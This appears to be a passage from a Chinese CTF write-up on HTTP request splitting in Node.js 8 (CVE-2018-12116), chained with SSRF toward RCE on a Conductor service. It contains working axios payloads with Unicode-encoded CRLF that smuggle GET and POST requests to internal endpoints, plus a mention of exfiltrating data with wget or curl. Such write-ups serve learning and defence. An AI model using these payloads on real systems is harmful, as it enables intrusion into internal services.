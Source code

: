 ### NodeJS 8 HTTP 请求走私

暂且先不看这个，咱先看看 **怎么从 GET 接口打 POST 请求**。

NodeJS 有个 [CVE-2018-12116](https://www.cvedetails.com/cve/CVE-2018-12116/)，可以在 `path` 里构造带有 Unicode 的数据，发送非预期的路径给服务端来生成另一个 HTTP 请求。

或者可以说是 **HTTP 请求走私**（HTTP request smuggling）。

> Node.js: All versions prior to Node.js 6.15.0 and 8.14.0: HTTP request splitting: If Node.js can be convinced to use unsanitized user-provided Unicode data for the `path` option of an HTTP request, then data can be provided which will trigger a second, unexpected, and user-defined HTTP request to made to the same server.

[影响范围](https://hub.docker.com/_/node?tab=description&page=1&ordering=last_updated&name=8.13)

启用docker

```
docker pull node:8.13.0-alpine
docker run -itd --name node8.13-test node:8.13.0-alpine
docker exec -it node8.13-test /bin/sh
# 进入docker里执行
npm i axios
node
```

Node内执行

```
const axios = require('axios') 
var s = 'http://xxx.xxx.xxx.xxx:xxxx/?param=x\u{0120}HTTP/1.1\u{010D}\u{010A}Host:{\u0120}127.0.0.1:3000\u{010D}\u{010A}\u{010D}\u{010A}GET\u{0120}/private' 
axios.get(s).then((r) => console.log(r.data)).catch(console.error)
```

夹带post请求也是

```
const axios = require('axios') 
var s = 'http://xxx.xxx.xxx.xxx:xxxx/\u{0120}HTTP/1.1\u{010D}\u{010A}Host:{\u0120}127.0.0.1:3000\u{010D}\u{010A}\u{010D}\u{010A}POST\u{0120}/search?url=http://10.0.66.14:8080/api/metadata/taskdefs\u{0120}HTTP/1.1\u{010D}\u{010A}Host:127.0.0.1:3000\u{010D}\u{010A}Content-Type:application/json\u{010D}\u{010A}Content-Length:15\u{010D}\u{010A}\u{010D}\u{010A}NodeTest\u{010D}\u{010A}\u{010D}\u{010A}\u{010D}\u{010A}\u{010D}\u{010A}GET\u{0120}/private'
axios.get(s).then((r) => console.log(r.data)).catch(console.error)
```

### 通过 SSRF 打Conductor RCE

参考文献: 

1. https://www.zhaoj.in/read-6905.html

2. https://miaotony.xyz/2021/04/05/CTF_2021HFCTF_internal_system/

了解后发现反弹shell不行就尝试通过 wget 或者 curl 外带数据

Evil.java
